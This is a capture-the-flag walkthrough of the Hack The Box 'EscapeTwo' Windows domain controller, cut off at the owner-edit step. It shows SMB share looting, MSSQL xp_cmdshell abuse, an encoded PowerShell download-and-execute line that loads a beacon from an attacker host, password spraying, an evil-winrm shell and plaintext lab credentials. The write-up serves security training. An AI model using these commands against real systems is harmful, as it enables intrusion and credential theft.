## Entry

This is another real life Windows pentest from HTB.


so we wil start with creds which is  rose / KxEPkKe6R8su

Lets start with domain name with nxc and nmap

```bash
➜  escapetwo nxc smb 10.10.11.51                                                                                 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)

```

So lets add them in /etc/hosts file

```bash
➜  escapetwo cat /etc/hosts
[SNIP]
ff02::2 ip6-allrouters
10.10.11.51     DC01.sequel.htb sequel.htb

```

### nmap

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-01 00:57:11Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
```

its seems like default AD box but we have 1433 also which mssql so its important.

### Bloodhound-data

Lets dump bloodhound data btw

```bash
➜  bloodhound nxc ldap DC01.sequel.htb -u rose -p 'KxEPkKe6R8su' --bloodhound --dns-server 10.10.11.51 --collection all
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
LDAP        10.10.11.51     389    DC01             Resolved collection methods: psremote, trusts, dcom, group, rdp, session, container, acl, localadmin, objectprops
LDAP        10.10.11.51     389    DC01             Done in 00M 19S
LDAP        10.10.11.51     389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.11.51_2025-04-30_214930_bloodhound.zip

```

### Enum

```bash
➜  escapetwo nxc smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 

```

creds work for SMB so lets work with it. we can look shares and grab username etc.

```bash
➜  escapetwo nxc smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ            
```

we have some shares which is non-default. So maybe we can grab some files.

I’m gonna use spider_plus for this.



lets check which files we have.



nice we have xlsx files its seems like thats the way

### shares

```bash
➜  escapetwo smbclient.py rose@DC01.sequel.htb
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Accounting Department
# ls
drw-rw-rw-          0  Sun Jun  9 07:11:31 2024 .
drw-rw-rw-          0  Sun Jun  9 07:11:31 2024 ..
-rw-rw-rw-      10217  Sun Jun  9 07:11:31 2024 accounting_2024.xlsx
-rw-rw-rw-       6780  Sun Jun  9 07:11:31 2024 accounts.xlsx
# mget *
[*] Downloading accounting_2024.xlsx
[*] Downloading accounts.xlsx
# 

```

accounts.xlsx was seems like interesting

we have some usernames and password we can create usernames with nxc also.

Lets check about users


its here



### mssql

its seems like only work for oscar. but we also get mssql creds seems like so lets check if we have any access without Guest Because with oscar and rose we have only Guest access.



so lets try with 

| sa | MSSQLP@ssw0rd! |
| --- | --- |



Lets enable xpcmdshell and check files etc.

```bash
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL
```

i will load my beacon here directly.

```bash
➜  escapetwo cat shell.ps1 
iwr -usebasicparsing -uri http://10.10.15.40/a.ps1|iex
➜  escapetwo cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA1AC4ANAAwAC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=#      
```

and run

```bash
SQL (sa  dbo@master)> xp_cmdshell powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA1AC4ANAAwAC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=
```



I will check directories cause there is nothing interesting at bloodhound



Here i found nondefault direectories.

```bash
[04/30 21:42:42] beacon> cd SQL2019
[04/30 21:42:42] [*] cd SQL2019
[04/30 21:42:43] [+] host called home, sent: 15 bytes
[04/30 21:42:45] beacon> dir
[04/30 21:42:45] [+] Running dir (T1083)
[04/30 21:42:45] [*] Running dir (T1083)
[04/30 21:42:46] [+] host called home, sent: 5898 bytes
[04/30 21:42:46] [+] received output:
Contents of .\*:
	06/08/2024 15:07           <dir> .
	06/08/2024 15:07           <dir> ..
	06/08/2024 15:07           38166 expradv_filelist_ENU.snp
	01/03/2025 07:29           <dir> ExpressAdv_ENU
	                           38166 Total File Size for 1 File(s)
	                                                      3 Dir(s)

[04/30 21:42:55] beacon> cd ExpressAdv_ENU
[04/30 21:42:55] [*] cd ExpressAdv_ENU
[04/30 21:42:59] [+] host called home, sent: 22 bytes
[04/30 21:43:01] beacon> dir
[04/30 21:43:01] [+] Running dir (T1083)
[04/30 21:43:01] [*] Running dir (T1083)
[04/30 21:43:03] [+] host called home, sent: 5898 bytes
[04/30 21:43:04] [+] received output:
Contents of .\*:
	01/03/2025 07:29           <dir> .
	01/03/2025 07:29           <dir> ..
	06/08/2024 15:07           <dir> 1033_ENU_LP
	09/24/2019 22:03              45 AUTORUN.INF
	09/24/2019 22:03             788 MEDIAINFO.XML
	06/08/2024 15:07              16 PackageId.dat
	06/08/2024 15:07           <dir> redist
	06/08/2024 15:07           <dir> resources
	09/24/2019 22:03          142944 SETUP.EXE
	09/24/2019 22:03             486 SETUP.EXE.CONFIG
	06/08/2024 15:07             717 sql-Configuration.INI
	09/24/2019 22:03          249448 SQLSETUPBOOTSTRAPPER.DLL
	06/08/2024 15:07           <dir> x64
	                          394444 Total File Size for 7 File(s)
	                                                      6 Dir(s)
```

and grab another password here.



Lets do password spray.

```bash
➜  escapetwo nxc smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3'                 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
```

its work ryan and .



He is member of Remote Management Users so we can get winrm shell here.

```bash
➜  escapetwo evil-winrm -i 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> dir

    Directory: C:\Users\ryan\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/29/2025   9:01 PM             34 user.txt

*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
28a00965c130e8ae4465585ecc39cd08
```

Lets check bloodhound datas here.

## WriteOwner


We have WriteOwner. on ca_svc. We can also check with [PowerView](https://github.com/aniqfakhrul/powerview.py) btw

```bash
➜  escapetwo powerview sequel.htb/'ryan'@DC01.sequel.htb --dc-ip 10.10.11.51
Password:
Logging directory is set to /root/.powerview/logs/sequel-ryan-dc01.sequel.htb
[2025-04-30 21:59:02] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAPS)-[DC01.sequel.htb]-[SEQUEL\ryan]
PV > 
```

we need ryan’s SID btw and we can get with

```bash
[04/30 22:00:30] beacon> execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_x86/SharpView.exe ConvertTo-SID -Name ryan
[04/30 22:00:31] [*] Tasked beacon to run .NET program: SharpView.exe ConvertTo-SID -Name ryan
[04/30 22:00:34] [+] host called home, sent: 845036 bytes
[04/30 22:00:38] [+] received output:
S-1-5-21-548670397-972687484-3496335370-1114
```

or or on powerView directly.

```bash
(LDAPS)-[DC01.sequel.htb]-[SEQUEL\ryan]
PV > Get-DomainUser -Identity ryan -Select ObjectSid
S-1-5-21-548670397-972687484-3496335370-1114
```


And here. Now lets do abuse

### WriteOwner-Linux-Abuse

Actually bloodhound give us Abuse commands but im gonna use bloodyAD for them.



but again i wanna use bloodyAD after set_owneredit. and i will use my repo https://github.com/lineeralgebra/autobloodyAD

#### set owner edit with bloodyAD

